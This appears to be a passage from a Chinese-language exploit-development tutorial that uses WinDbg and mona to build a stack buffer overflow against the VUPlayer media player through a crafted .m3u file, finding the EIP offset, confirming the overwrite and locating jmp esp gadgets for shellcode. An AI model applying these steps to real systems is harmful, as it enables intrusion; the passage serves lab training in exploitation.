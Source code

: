 ```shell
.load pykd
```

```shell
!py mona pattern_create 3000
或者
!py mona pc 3000
```

将得到的3000个字符拷贝到`test.m3u`文件，重复之前的操作，得到

![EIPpattern](../pic/Exploitme-ROP/EIPpattern.png)

之后执行以下命令，确定偏移量（偏移量指输入点距栈中返回地址之间的字节数）：

```shell
!py mona pattern_offset 68423768
或
!py mona po 0x68423768  # 0x可以省略
```

得到

![mona_po](../pic/Exploitme-ROP/mona_po.png)

确定偏移量为 1012 。

使用以下脚本，重复操作，测试偏移量是否正确：

```shell
payload = "A"*1012 + "B"*4
file = open('test.m3u','w')
file.write(payload)
file.close()
```

看到 EIP 成功被 0x42424242 覆盖，偏移量正确

![EIP42424242](../pic/Exploitme-ROP/EIP42424242.png)

### 直接在栈上执行shellcode

#### 搜索跳转指令

```
!py mona j -r esp
```

得到以下输出

```
[+] Writing results to jmp.txt
    - Number of pointers of type 'jmp esp' : 7 
    - Number of pointers of type 'call esp' : 7 
    - Number of pointers of type 'push esp # ret ' : 1 
[+] Results : 
0x1000d0ff |   0x1000d0ff : jmp esp | null {PAGE_EXECUTE_READWRITE} [BASS.dll] ASLR: False, Rebase: False, SafeSEH: False, CFG: False, OS: False, v2.3.0.3 (D:\VulnTest\VUPlayer\BASS.dll), 0x0
0x1010539f |   0x1010539f : jmp esp |  {PAGE_EXECUTE_READWRITE} [BASSWMA.dll] ASLR: False, Rebase: False, SafeSEH: False, CFG: False, OS: False, v2.3.0.3 (D:\VulnTest\VUPlayer\BASSWMA.dll), 0x0
...、、
    Found a total of 15 pointers

[+] This mona.py action took 0:00:04.439000
```
